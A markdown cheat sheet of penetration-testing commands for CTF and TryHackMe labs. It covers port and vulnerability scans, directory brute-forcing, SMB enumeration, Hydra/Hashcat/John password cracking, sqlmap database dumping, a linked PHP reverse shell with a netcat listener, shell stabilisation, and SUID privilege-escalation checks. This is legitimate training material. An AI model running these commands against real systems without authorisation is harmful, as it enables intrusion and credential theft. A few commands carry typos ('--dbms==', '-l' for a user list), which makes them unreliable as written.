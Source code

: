 # Common CTF References

## THM box setup
tryhackme virtual box do not have pip installed.
```
sudo apt install python3-pip
```

## IP setup

note that in this script below, I made an assumption that you have assigned ```IP``` to the target's IP address:
```bash
export IP=<ip address>
```

## Nmap
Normal full port scan:
```bash
nmap -sC -sV -p- -oN fullscan $IP
```

Nmap scanning samba ports:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

Nmap scanning for vulnerability script:
```bash
nmap $IP --script=/usr/share/nmap/scripts/vulners.nse -sV
```

## Nikto
```bash
nikto -h $IP
```

##  Gobuster

Normal medium wordlist directory scan:
```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Scanning with extensions example ```php``` and ```txt```:
```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
```

## Samba
Through Nmap:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

Through enum4linux:
```bash
enum4linux -A $IP
```

Accessing Samba:
```bash
smbclient //$IP/[SHARE]
```

With user and port add:
```
-U [name] : to specify the user

-p [port] : to specify the port
```

## Telnet
Accessing Telnet:
```bash
telnet $IP [port]
```

## Hydra Brute-Forcing
With known user and unknown password:
```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

with unknown user and unknown password:
```bash
hydra -l /path/to/user/list -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

force http-get
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 3000 -f $IP http-get /<address>
```

## Sample Hashcat Brute-Forcing
```bash
hashcat -D 1 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```
## Sample John The Ripper Brute-Forcing
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## SQLmap
```bash
sqlmap -u $IP
```

if you know the database type
```bash
sqlmap -u $IP --dbms==sqlite --dump
```

## Reverse Shell

[Pentestmonkey's php reverse shell] (https://github.com/pentestmonkey/php-reverse-shell)
-Remember to change the IP address and port in the php script

[Renaming reverse shell ext](https://d00mfist.gitbooks.io/ctf/content/bypass_image_upload.html)


## Netcat
```
nc -lvpn <port>
```

## Stablising Shell
- type the following:
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

OR

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- press ```ctrl+z``` to bring shell to foreground

- type:
```bash
stty raw -echo
fg
```

- press ```Enter``` a few times to get back the shell

- type:
```bash
export TERM=xterm
```

- press ```crtl+l``` to get a clean and stable shell.

## Finding Exploit For Privilege Escalation

1. You can type ```sudo -l``` to see if any sudo permission is given.

2. you can use ```find / -perm -u=s -type f 2>/dev/null``` to find exploit files to run without ```sudo```. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

3. you get find possible escalation scripts at [GTFObins](https://gtfobins.github.io/)

## Recommended Burpsuite Additional Module Copy As Python-Requests
1. Go to ```Extender``` Tab
2. Under ```BApp Store``` Tab
3. Search for ```Copy As Python-Requests```
4. This allows you to change the get or post requests into a python format when you right click on the ```intercept``` response and choose ```Copy As Python-Requests```
5. Good for python scripting.
